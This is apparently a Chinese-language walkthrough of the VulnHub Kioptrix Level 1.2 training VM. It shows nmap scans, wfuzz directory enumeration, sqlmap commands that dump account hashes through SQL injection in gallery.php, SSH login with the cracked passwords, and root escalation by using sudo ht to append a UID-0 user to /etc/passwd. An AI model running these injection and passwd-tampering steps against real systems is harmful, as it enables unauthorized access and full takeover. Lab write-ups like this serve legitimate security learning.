



# Kioptrix3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**Description**

It's been a while since the last Kioptrix VM challenge. Life keeps getting the way of these things you know.

After the seeing the number of downloads for the last two, and the numerous videos showing ways to beat these challenges. I felt that 1.2 (or just level 3) needed to come out. Thank you to all that downloaded and played the first two. And thank you to the ones that took the time to produce video solutions of them. Greatly appreciated.

As with the other two, this challenge is geared towards the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there’s more then one way to “pwn” this one. There’s easy and not so easy. Remember… the sense of “easy” or “difficult” is always relative to ones own skill level. I never said these things were exceptionally hard or difficult, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

Important thing with this challenge. Once you find the IP (DHCP Client) edit your hosts file and point it to kioptrix3.com

Under Windows, you would edit C:\Windows\System32\drivers\etc\hosts to look something like this:

```
# localhost name resolution is handled within DNS itself.
#   127.0.0.1 localhost
#   ::1 localhost127.0.0.1 static3.cdn.ubi.com

192.168.1.102 kioptrix3.com
```

Under Linux that would be /etc/hosts

There’s a web application involved, so to have everything nice and properly displayed you really need to this.

Hope you enjoy Kioptrix VM Level 1.2 challenge.

452 Megs

MD5 Hash : d324ffadd8e3efc1f96447eec51901f2

Have fun

Source: http://www.kioptrix.com/blog/?p=358

**知识点**
- SQL 注入
- ht 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.146` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.146
```



SSH 和 web,从 web 先入手,先按照要求修改 hosts 文件,访问 web 看看
```bash
echo "192.168.141.146 kioptrix3.com" >> /etc/hosts
```


看上去是用 lotusCMS 搭建的,先目录扫描看下
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://kioptrix3.com/FUZZ | grep 301
```



有个 phpmyadmin,访问看看


2.11.3 版本有个 CVE-2009-1151,实际测试并不能利用成功,没办法了,从其他地方入手吧

---

# 中期-漏洞利用

注意到主页下面有个链接指向 `http://kioptrix3.com/gallery/`

发现这里可以进行排序,对 id 参数测试 SQL 注入




这里可能存在 SQL 注入,直接 Sqlmap 跑起来
```
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 --current-db
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery --tables
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery -T dev_accounts --dump
```


```
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
```

可以看到跑出2个账号组合,测试了一下，不能登录 web,想到之前扫出的 SSH,试了下登录成功,2个都可以登录

---

# 后期-提权

dreg 账号实在是没什么可利用的，loneferret 账号下有一些利用的点

```
sudo -l
```


ht 是一个文本编辑器,尝试用它来提权
```
sudo ht /etc/passwd
```


提示我需要设置 xtrem-color
```
export TERM=xterm-color
sudo ht /etc/passwd
```


实际上这里我是一脸懵逼的,这玩意咋整啊

按 F3,打开文件,输入 /etc/passwd ,回车


最末尾加上
```
test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash
```


按 F10,退出,记得保存
```
su test
toor
```


提权成功,感谢 Kioptrix Team 制作靶机
